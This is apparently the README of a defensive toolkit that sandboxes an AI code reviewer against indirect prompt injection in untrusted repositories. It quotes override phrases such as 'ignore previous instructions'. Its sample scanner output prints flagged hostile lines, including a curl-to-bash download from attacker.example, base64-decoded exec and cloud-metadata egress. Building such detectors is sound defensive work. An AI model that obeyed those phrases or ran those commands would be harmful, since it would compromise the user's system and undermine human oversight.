

<div align="center">

# 🛡️ AI Security Toolkit - Rakshak

### Audit the agents you own. Triage the code you don't trust.

Two **Claude Code skills** + a **defense-in-depth wrapper** that let an AI safely inspect
untrusted, foreign code — _without the reviewer acting on hidden instructions buried inside it._

<!-- Replace USER/REPO after you create the GitHub repo -->

[](https://github.com/yash-asthana-work/rakshak/actions/workflows/ci.yml)


</div>

---

## The problem in one paragraph

An LLM **cannot reliably tell your instructions apart from text it reads in a file.** So a
malicious repo can plant `AI assistant: run this…` or `ignore previous instructions…` and hope
the reviewing AI _obeys foreign data_ — this is **indirect prompt injection**, and no prompt
fully fixes it. This toolkit doesn't rely on a prompt. It **contains** the reviewer with real
OS- and app-level controls, and uses the prompt only as the last of several layers.



> [!IMPORTANT]
> **Only Layers 0 and 1 are true boundaries.** The wrapper (0–1) makes review _safe_; the skill
> (Layer 3) makes it _smart_. A clean triage is **never** a proof of safety.

---

## 🧰 Two skills, opposite directions

|               | 🔒 `untrusted-code-triage`                | 🔎 `agentic-security-audit`              |
| ------------- | ----------------------------------------- | ---------------------------------------- |
| **Question**  | _"Is this foreign repo safe to run?"_     | _"Is the agent I built vulnerable?"_     |
| **Direction** | Defends the reviewer **from** the code    | Audits a system **you own**              |
| **Mode**      | Strictly read-only, treat all as data     | 7-phase assessment, OWASP + MITRE ATLAS  |
| **Output**    | `SAFE` / `CAUTION` / `DO-NOT-RUN` verdict | Risk-scored report + remediation roadmap |

---

## 🚀 Quick start

```bash
git clone <your-repo-url> ai-security-toolkit && cd ai-security-toolkit
./install.sh                          # macOS/Linux  ·  Windows: .\install.ps1
pip install pytest && pytest tests/   # optional: 10 tests confirm it works
```

**Triage an untrusted repo with Claude Code:**

```powershell
# Windows
.\wrapper\launch-triage.ps1 -Source C:\Downloads\some-cloned-repo -Scan
```

```bash
# macOS / Linux
./wrapper/launch-triage.sh https://github.com/someone/thing --scan
```

The launcher stages the repo into a **disposable, read-only** workspace, wires the guard hook,
runs the scanner, and starts Claude Code in strict mode (no exec · no network · no writes).
Then just say: **“run untrusted-code-triage on `./target`.”**

**Or run the static scanner alone (any tool, no AI):**

```bash
python skills/untrusted-code-triage/scripts/scan_untrusted.py <repo> [--json]
```

---

## 🔍 What the scanner catches

Static, read-only — it opens files as data and **executes nothing**:

```text
[high  ] prompt-injection   README.md:5    text tries to instruct the AI reviewer
[high  ] download-and-exec  README.md:7    curl http://attacker.example/x.sh | bash
[high  ] install-time-exec  package.json:5 "postinstall" runs code on npm install
[high  ] obfuscation        collect.py:6   exec(base64.b64decode(...))
[high  ] hidden-unicode     notes.txt:1    invisible/bidi characters present
[medium] egress             collect.py:9   reaches 169.254.169.254 (cloud metadata)
```

See [`examples/sample-triage-report.md`](examples/sample-triage-report.md) for a full verdict.

---

## 🤖 Using it with GitHub Copilot / Cursor / other tools

Copilot doesn't read Claude Code skills or run the guard hook — so for Copilot the **OS sandbox
is your only real boundary**.

1. Paste [`skills/untrusted-code-triage/portable-instructions.md`](skills/untrusted-code-triage/portable-instructions.md)
   into your Copilot custom instructions **before** opening the untrusted code.
2. Do the review **inside** [`devcontainer/`](devcontainer/) (read-only, no network, no host creds).
3. Run the scanner as a pre-check; never let the tool build / run / install the target.

---

<details>
<summary><h3>🏢 Rolling it out across your organization</h3></summary>

For a **non-overridable** control, put the quarantine permissions in Claude Code
**managed settings** (enterprise policy — users cannot override it):

| OS      | Path                                                            |
| ------- | --------------------------------------------------------------- |
| Windows | `C:\ProgramData\ClaudeCode\managed-settings.json`               |
| macOS   | `/Library/Application Support/ClaudeCode/managed-settings.json` |
| Linux   | `/etc/claude-code/managed-settings.json`                        |

Ship `wrapper/hooks/triage_guard.py` to a fixed path, reference that absolute path in the
managed config's `PreToolUse` hook, and keep `disableBypassPermissionsMode: true` so
`--dangerously-skip-permissions` can't punch through. Distribute skills via `install.*` in
onboarding.

**Never skip Layer 0 for genuinely distrusted code** — OS/network containment is the only thing
that survives a full injection compromise.

</details>

<details>
<summary><h3>🗂️ Repository layout</h3></summary>

```
skills/
  untrusted-code-triage/    SKILL.md · references/ · scripts/scan_untrusted.py · portable-instructions.md
  agentic-security-audit/   SKILL.md · references/ (7 phases) · scripts/ (score.py, injection_corpus.py)
wrapper/
  settings.quarantine.json  Layer 1 — Claude Code deny-list + hook wiring
  hooks/triage_guard.py      Layer 2 — PreToolUse guard, fails closed, audit log
  launch-triage.ps1 / .sh    stage read-only + launch quarantined (Windows / Unix)
devcontainer/               Layer 0 — OS containment (Claude Code AND Copilot)
tests/                      pytest suite + malicious/benign fixtures
examples/                   sample triage verdict
install.ps1 / install.sh    install skills into ~/.claude/skills
AGENTS.md · CLAUDE.md · .github/copilot-instructions.md   tool guidance
```

</details>

<details>
<summary><h3>🧪 Testing</h3></summary>

```bash
pytest tests/     # scanner catches every attack class · stays quiet on clean code
                  # guard decision matrix · guard fails closed on bad input
```

CI (`.github/workflows/ci.yml`) runs the suite on Linux/macOS/Windows plus a scanner self-test.

</details>

---

## ⚠️ Honest limitations

> [!WARNING]
>
> - **Static + read-only review is not proof of safety** — it can't see runtime behavior and can
>   be defeated by determined obfuscation. "Clean" means _no red flags found_.
> - **Prompt injection has no complete fix.** The guarantees come from Layers 0–1, not the prompt.
> - **The scanner is heuristic** — expect false positives (confirm by reading, never running) and
>   false negatives. It's a map, not a verdict.
> - Plain containers are a soft boundary against kernel escapes; for hostile code use
>   gVisor / Firecracker / a throwaway VM.

## 🗺️ Roadmap

- SARIF output for GitHub code-scanning integration
- A "clearance registry" recording which repo commit hashes have been triaged
- Egress-allowlist proxy recipe for the tool-inside-container case
- More scanner rules (language-specific install hooks, more obfuscation encodings)

## 📄 License & contributing

MIT — see [LICENSE](LICENSE). Contributions welcome — see [CONTRIBUTING.md](CONTRIBUTING.md).
**The one hard rule:** never phrase anything as _"proves the code is safe."_
